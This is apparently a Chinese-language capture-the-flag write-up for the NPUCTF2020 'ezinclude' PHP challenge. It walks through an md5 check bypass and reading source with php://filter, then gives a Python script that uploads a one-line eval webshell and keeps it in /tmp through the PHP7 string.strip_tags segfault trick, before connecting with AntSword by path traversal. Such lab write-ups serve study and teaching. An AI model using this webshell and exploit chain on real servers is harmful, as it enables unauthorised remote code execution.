







# NPUCTF2020-ezinclude

首先启动靶机并访问页面。

-

查看网页源码发现提示

```
<!--md5($secret.$name)===$pass -->
```

抓包看看

-

推测这里的hash=fa25e54758d5d5c1927781a6ede89f8a即为md5($secret,$name)

我们不传入name或者传入空值，使hash=md5($secret)，再传入?pass=fa25e54758d5d5c1927781a6ede89f8a，即可绕过



提示我们访问flflflflag.php	



发现include函数，并且与file传参有关，我们用伪协议去读取一下源码看看

```
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>


```

发现data伪协议和input伪协议都被过滤了，看了下其他大佬的wp发现这里用的是一个php特性
利用 php7 segment fault 特性
大致意思是：使用伪协议php://filter中的string.strip_stags 过滤器 并上传文件 php的垃圾回收机制就不会继续执行 使post传递的文件存储在/temp/文件下
10.利用条件
php7.0.0-7.1.2可以利用
php7.1.3-7.2.1可以利用
php7.2.2-7.2.8可以利用
可以获取文件名
源代码get参数进行文件包含
同时tmp下的文件会放在dir.php中

---

**dir.php**

```
<?php
var_dump(scandir('/tmp'));
?>
```

python脚本

```
import requests
from io import BytesIO
url="http://cbe0695c-f137-47ee-a477-7a645484bc91.node5.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
#phpfile对应的就是上传的文件的内容
phpfile="<?php @eval($_POST[1]); ?>"
filedata={
    "file":phpfile
}
r=requests.post(url=url,files=filedata)
print(r.text)

```



此时文件是上传上去了的
脚本最后会输出BUUCTF容器不存在的页面，但这并不意味着我们操作失败了，按照知识点来说属于是"php崩溃清空堆栈重启"，我们脚本中上传的文件还是存在的。
访问dir.php查看我们上传后的文件。



找到了我们上传的文件名之后进行目录穿越蚁剑连../../../../../tmp/phpWHPmtj

然后发现没有flag，结果发现在phpinfo中，只需要重新上传，修改一下上传文件的代码即可

然后在phpinfo中找到flag



## 知识点

### php7 segment fault 特性

```
用伪协议php://filter中的string.strip_stags 过滤器 并上传文件 php的垃圾回收机制就不会继续执行 使post传递的文件存储在/temp/文件下
10.利用条件
php7.0.0-7.1.2可以利用
php7.1.3-7.2.1可以利用
php7.2.2-7.2.8可以利用
可以获取文件名
源代码get参数进行文件包含
同时tmp下的文件会放在dir.php中

使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，再进行文件名爆破就可以getshell
```


